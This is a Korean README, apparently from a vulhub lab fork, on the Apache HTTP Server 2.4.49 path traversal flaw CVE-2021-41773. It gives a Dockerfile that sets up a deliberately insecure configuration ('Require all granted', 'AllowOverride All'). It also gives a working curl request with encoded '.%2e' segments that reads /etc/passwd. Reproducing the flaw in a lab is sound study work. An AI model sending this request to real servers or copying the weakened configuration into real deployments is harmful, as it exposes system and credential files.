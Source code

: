 # Apache HTTP Server 2.4.49 경로 탐색 및 원격 코드 실행 취약점 (CVE-2021-41773)

Apache HTTP Server 프로젝트는 UNIX 및 Windows 등 다양한 운영체제를 지원하는 오픈소스 웹 서버를 개발 및 유지하는 프로젝트입니다.

Apache HTTP Server 2.4.49 버전에서는 **경로 정규화(Path Normalization)** 처리 과정의 결함으로 인해, 공격자가 URL 요청을 조작하여 문서 루트(DocumentRoot) 외부의 파일에 접근할 수 있는 **경로 탐색(Path Traversal)** 취약점이 발견되었습니다.

만약 서버가 기본 설정인 `Require all denied` 로 외부 파일 접근을 차단하고 있지 않다면, 이 취약점을 통해 공격자는 서버 파일을 읽을 수 있습니다.

---






## 취약 환경 구축
Dockerfile 작성
```
FROM httpd:2.4.49

RUN sed -i 's/AllowOverride none/AllowOverride All/g' /usr/local/apache2/conf/httpd.conf && \
    sed -i 's/Require all denied/Require all granted/g' /usr/local/apache2/conf/httpd.conf && \
    sed -i 's/AllowOverride None/AllowOverride All/g' /usr/local/apache2/conf/httpd.conf
```
- AllowOverride none → AllowOverride All  
.htaccess 파일을 통한 설정 재정의를 허용합니다.
- Require all denied → Require all granted  
기본적으로 모든 요청을 거부하는 대신, 모든 요청을 허용하게 변경합니다.
- AllowOverride None → AllowOverride All  
추가적으로 필요한 경로에서도 .htaccess 기반 설정 변경을 허용합니다.
이 설정 변경을 통해 원래 차단되어야 하는 /etc/passwd 같은 파일도 제한 없이 접근 가능하게 됩니다.

아래 명령어를 사용하여 취약한 Apache 서버 환경을 구성할 수 있습니다.

```bash
docker build -t apache-cve-2021-41773 .
```
![](1.png)

```bash
docker run -d -p 8080:80 --name apache-41773 apache-cve-2021-41773
```
![](2.png)


## 취약점 공격 재현 (PoC)
```bash
curl -v http://127.0.0.1:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
/etc/passwd 파일 내용을 성공적으로 읽어올 수 있습니다.
![](3.png)


## Repository
https://github.com/5asever/vulhub/edit/master/httpd/CVE-2021-41773    

## commit 이력
https://github.com/5asever/vulhub/commits/master/    

## pull reqeusts
https://github.com/vulhub/vulhub/pull/688    
